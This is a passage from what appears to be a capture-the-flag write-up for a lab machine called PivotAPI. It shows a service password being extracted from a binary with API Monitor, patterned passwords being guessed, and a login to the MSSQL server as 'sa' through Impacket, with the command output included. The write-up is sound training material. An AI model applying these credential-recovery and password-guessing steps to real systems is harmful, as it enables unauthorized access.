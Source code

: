 ![[Pasted image 20210518130444.png]]

At the end removes the del statements  
![[Pasted image 20210518130517.png]]

Run the bat file. *restart-service* should now be located in *C:/programData/*
We need to monitor what the executable does, We will do that by using a tool called *API  monitor*
http://www.rohitab.com/apimonitor

Fire up *API monitor* so we can analyze it. 
Check off all API filters and set monitored process to *restart-service*

![[Pasted image 20210518131922.png]]

We can now see what API calls it does. 
press *Ctrol-F* to open Find and search for password

```bash
#	Time of Day	Thread	Module	API	Return Value	Error	Duration
CreateProcessWithLogonW ( "svc_oracle", "", "#oracle_s3rV1c3!2010", 0, NULL, ""c:\windows\system32\cmd.exe" /c sc.exe stop OracleServiceXE; sc.exe start OracleServiceXE", 0, NULL, "C:\ProgramData", 0x000000000234e120, 0x0000000003f61c68 )  FALSE   1326 = The user name or password is incorrect.
```

We now have username and password for the Orcale server. 
svc_oracle : \#oracle_s3rV1c3!2010

From the Nmap result we know there a MSSQL server port open, lets try and connect it to with the knowledge we have of how the oracle was setup. 

Lets connect to the sql server, I do know think they reused the same password, but maybe something in a similar type *svc_mssql: \#mssql_s3rV1c3!2020* because they migrated in 2020
let try do a quick try.

```bash
mssqlclient.py -port 1433 svc_mssql@pivotapi.htb  

Impacket v0.9.23.dev1+20210517.123049.a0612f00 - Copyright 2020 SecureAuth Corporation  
  
Password:  
\[\*\] Encryption required, switching to TLS  
\[-\] ERROR(PIVOTAPI\\SQLEXPRESS): Line 1: Error de inicio de sesión del usuario 'svc\_mssql'.
```

wrong password, lets with the mssql default account *sa* and the same password.

```bash
mssqlclient.py -port 1433 sa@pivotapi.htb  
Impacket v0.9.23.dev1+20210517.123049.a0612f00 - Copyright 2020 SecureAuth Corporation  
  
Password:  
\[\*\] Encryption required, switching to TLS  
\[\*\] ENVCHANGE(DATABASE): Old Value: master, New Value: master  
\[\*\] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español  
\[\*\] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192  
\[\*\] INFO(PIVOTAPI\\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.  
\[\*\] INFO(PIVOTAPI\\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.  
\[\*\] ACK: Result: 1 - Microsoft SQL Server (150 7208)    
\[!\] Press help for extra shell commands  
SQL>
```

